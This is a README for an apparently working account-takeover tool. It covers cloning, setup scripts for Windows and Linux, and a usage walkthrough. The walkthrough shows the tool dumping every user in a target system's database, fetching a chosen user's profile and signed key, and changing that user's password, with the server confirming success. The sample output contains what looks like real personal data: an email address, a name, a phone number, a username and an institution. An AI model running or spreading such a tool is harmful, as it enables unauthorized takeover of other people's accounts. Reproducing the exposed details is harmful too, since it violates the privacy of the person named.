

# Account Take Over
This is a Account Take Over that demonstrates how to create a README.md file for installation and usage instructions.


## Table of Contents

- [Installation](#installation)
  - [Windows](#windows)
  - [Linux](#linux)
- [Usage](#usage)

## Installation
1. **Clone the repository:**

   ```bash
   git clone https://github.com/osochello/account_takeover.git

   cd account_takeover/
#### Windows

1. open cmd terminal as Adminstartor
2. Set Env and Install Requirments
3. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   config.bat

   #for running the script type
   run.bat

#### Linux

1. Open Termical
2. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   chmod +x config.sh
   ./config.sh
   
   #for running the script type
   chmod +x run.sh
   ./run.sh


## Usage
1. When a started it ask you to enter for hosting ip Server
    ```bash 
        Enter IP Address For Server Hosting: 10.0.20.21
1. and then it display you these
    ```bash 
        1. Get All Users
        2. Account Take Over

        Choose option (1 or 2): 2
        Enter User Id You want to get his signed Hash: 21
3. if you choose 1 its display all users of the system database and save them to file.
4. so in my case i choose number 2 for account takeover and i tried to use user id 21 for testing 
    ```bash
                 Profile For Jaam Solutions Tech

            User Id : 21
            Profile Image : /static/assets/placeholder.jpeg
            Email : ayanlestyle@gmail.com
            Name : Jaam Solutions Tech
            Phone : 212112
            Username : baarepol90
            Nooca Userka : Baare
            Waaxda Userka : xabsigahbbbbb
            Institution : Hay'adda Nabad Sugidda Qaranka
            Signed_key : MjE:1rdoat:b0KeuhbNbjUSsxfTByU5W4b-TWj67emno7EuCgTfgqE
5. after display User Profile it also ask you these three questions
    ```bash
        1. Profile Change
        2. Reset Password
        3. Change User Password.

        Choose option (1 or 2): 3
6. i choose 3 for change user password
    ```bash
        Enter your new password:
        # hint use 8 characters include Capital and Symbols e.g(Aa@2024!$): Aa@2024!

        Sending Data To The Server

        {"isError": false, "Message": "Saved it successfully"}
7. finaly it shows message for Successfully Changes Password.